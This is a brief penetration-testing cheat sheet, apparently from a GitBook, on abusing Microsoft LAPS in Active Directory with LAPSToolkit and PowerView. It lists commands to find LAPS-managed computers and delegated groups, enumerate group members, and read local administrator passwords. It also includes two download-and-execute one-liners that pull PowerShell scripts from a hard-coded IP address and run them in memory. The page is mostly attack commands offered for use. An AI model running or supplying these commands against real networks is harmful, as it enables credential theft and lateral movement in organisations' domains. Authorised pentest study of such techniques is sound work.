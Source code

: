 # LAPS

## LAPS ToolKit 

```csharp
iex(iwr http://10.110.0.66:8001/LAPSToolkit.ps1) 
```

### Load the module 

```csharp
. .\LAPSToolkit.ps1
or
Import-Module .\LAPSToolkit.ps1
```

### Locate computers

```csharp
. .\LAPSToolkit.ps1
Get-LAPSComputers
Find-LAPSDelegatedGroups
```

![](../../../../.gitbook/assets/image%20%28148%29.png)

### Find Delegate groups

```csharp
Find-LAPSDelegatedGroups
```

![](../../../../.gitbook/assets/image%20%28281%29.png)

### Enumerate groups

#### Load powerview

```csharp
 iex(new-object net.webclient).downloadstring('http://10.110.0.66:8000/powerview.ps1')
```

```csharp
Get-NetGroupMember -GroupName <GROUP_NAME>
```

![](../../../../.gitbook/assets/image%20%2825%29.png)

### Retrieve password

{% hint style="info" %}
Require to compromise a privilege user
{% endhint %}

```csharp
Get-LAPSComputers
```

![](../../../../.gitbook/assets/image%20%28249%29%20%281%29.png)

## Resources

{% embed url="https://github.com/leoloobeek/LAPSToolkit" %}

